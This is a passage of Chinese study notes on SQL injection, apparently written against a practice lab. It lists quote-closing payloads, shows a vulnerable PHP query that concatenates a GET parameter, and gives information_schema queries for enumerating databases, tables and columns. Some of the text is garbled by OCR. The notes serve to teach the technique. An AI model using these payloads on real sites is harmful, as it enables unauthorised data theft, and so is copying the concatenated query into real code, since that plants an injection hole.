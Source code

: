 在可以提交的参数后添加： 

Ps:--+可以用#替换，url 提交过程中 Url 编码后的#为%23

 •or1=1--+

 •'or1=1--+ 

•"or1=1--+ 

•)or1=1--+ 

•')or1=1--+ 

•")or1=1--+ 

•"))or1=1--+ 

一般的代码为： `𝑖𝑑 =_GET['id'];$sql="SELECT*FROMusersWHEREid='$id'LIMIT0 ,1";`

 •此处考虑两个点，一个是闭合前面你的‘另一个是处理后面的‘，

 一般采用两种思路，闭合后面的引号或者注释掉，注释掉采用--+或 者#（%23） 

Step1：找出数据库 数据库：

 Select schema_name from information_schema.schemata 

<img src="{{ site.url }}/assets//blog_images/sql注入学习笔记_17.png" />

Step2:表 

select table_name from information_schema.tables where table_sc hema=‘security’; 

<img src="{{ site.url }}/assets//blog_images/sql注入学习笔记_18.png" />



Step3:列 

  猜某表的所有列 

 Select column_name from information_schema.columns where ta ble_name=’users’ 

<img src="{{ site.url }}/assets//blog_images/sql注入学习笔记_19.png" />

Step4 获取内容：

 获取某列的内容 `Select *** from ****` 

information_schema 的说明 

​     information_schema 数据库是 MySQL 自带的，它提供了访问 数据库元数据的方式。什么是元数据呢？元数据是关于数据的数据 ，如数据库名或表名，列的数据类型，或访问权限等。有些时候用 于表述该信息的其他术语包括“数据词典”和“系统目录”。 

​      在 MySQL 中，把 information_schema 看作是一个数据库， 确切说是信息数据库。其中保存着关于 MySQL 服务器所维护的所有 其他数据库的信息。如数据库名，数据库的表，表栏的数据类型与访问权 限等。在 INFORMATION_SCHEMA 中，有数个只读表。它们 实际上是视图，而不是基本表，因此，你将无法看到与之相关的任何 文件。 



information_schema 数据库表说明: 

SCHEMATA 表：提供了当前 mysql 实例中所有数据库的信息。是 show databases 的结果取之此表。
